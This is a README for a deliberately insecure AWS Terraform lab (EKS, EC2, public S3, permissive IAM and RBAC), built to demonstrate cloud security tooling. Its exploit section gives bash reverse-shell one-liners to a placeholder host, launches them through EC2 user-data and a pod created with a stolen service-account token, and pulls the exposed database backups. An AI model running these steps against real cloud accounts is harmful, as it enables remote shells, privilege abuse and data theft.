

# Cloud Security AWS environement
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions. Do not use this project on a production environement

# Topology


# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resources
- The network infrastructure: VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
# Destroy environement

```sh
cd cloud-security-aws-environement
cd scanners
terraform destroy
cd kubernetes
terraform destroy
cd eks
terraform destroy
cd compute
terraform destroy
cd infra
terraform destroy
```
